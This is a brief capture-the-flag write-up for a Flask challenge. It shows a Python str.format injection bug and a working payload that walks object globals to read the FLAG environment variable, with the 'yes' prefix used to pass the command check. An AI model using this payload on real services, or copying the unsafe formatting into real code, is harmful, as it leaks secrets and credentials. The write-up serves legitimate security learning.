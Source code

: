 ![image](https://github.com/user-attachments/assets/8edf7e20-fb1d-48a5-b71b-81121477bf65)

# Credit
Credits to [@Baba is dead](https://github.com/Zhongbob) for teaching me on this challenge

# Solution
the vulnerability lies in these lines it uses str.format will could lead to leakage of data.

```
def generate_response(response, command):
    responseObj = RandomResponse(response)
    message = "{response.generated} but "+command+"."
    return message.format(response = responseObj)
```

More info: https://www.geeksforgeeks.org/vulnerability-in-str-format-in-python/

Therefore, we can craft some payload to leak the flag

```
yes {response.__init__.__globals__[os].environ[FLAG]}
```

We need 'yes' in front the program checks for the prefix.

```
command_responses = {
    "yes": "but no, but yes, ",
    "no": "but yes, but no, ",
    "but": "but but, ",
}

@app.route('/api', methods=['POST'])
def api():

    session.setdefault('uuid', str(uuid.uuid4()))
    data = request.get_json()
    command = data.get('command')
    prefix = command.split(" ")[0].lower()

    if prefix not in command_responses:
        return jsonify({"response": "Invalid Command", "status": 400})
    
    response = generate_response(command_responses[prefix], command)

```

![image](https://github.com/user-attachments/assets/ec1e914c-09b1-458e-82ee-3230b6ad7fc0)
